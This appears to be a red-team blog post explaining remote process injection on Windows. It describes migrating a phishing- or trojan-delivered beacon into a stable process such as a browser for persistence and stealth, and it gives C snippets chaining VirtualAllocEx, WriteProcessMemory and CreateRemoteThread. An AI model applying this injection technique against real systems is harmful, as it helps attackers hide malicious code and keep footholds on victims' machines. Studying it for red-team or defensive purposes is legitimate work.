 ```yaml
---
title: Remote Process Injection
date: 2023-03-14 12:00:00 -500
categories: [blog]
tags: [code_execution]

---
```


# What is process injection and why do we need it?

Process injection is the act of creating a copy of your shellcode in the current process and copying it across to the memory space of a different process and remotely executing that code.

There are mulitiple ways of getting initial access during a Red Team campaign, but, through whichever means you get a successful beacon out to your control server, your first call home will be short lived most of the time. If you use phishing or a Trojan for instance, you would want to migrate your beacon code to a more stable long term process that will not die when the victim closes the application. Process injection can also be helpful if you are concerned about OPSEC. Migrating your code/beacon over to a web browser process will blend in much better than calc connecting out to the internet.  

# Implementing Process Injection

Process injection involves much of the same steps as we have already discussed in [this](https://coppertop-6.github.io/posts/Windows_Dropper/) post. We will make use of 3 Windows APIs that were designed for debugging processes, namely [VIrtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex), [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) and [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread). You might recognise these APIs and that is because it is the same APIs we used during the dropper design phase, but only for use in remote processes.

```c#
LPVOID pRemoteCode = NULL;
HANDLE hThread = NULL;

pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
```  

```c#        
WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
```

```c#
hThread = CreateRemoteThread(hProc, NULL, 0, pRemoteCode, NULL, 0, NULL);
if (hThread != NULL) {
    WaitForSingleObject(hThread, 500);
    CloseHandle(hThread);
    return 0;
    }
    return -1;
```

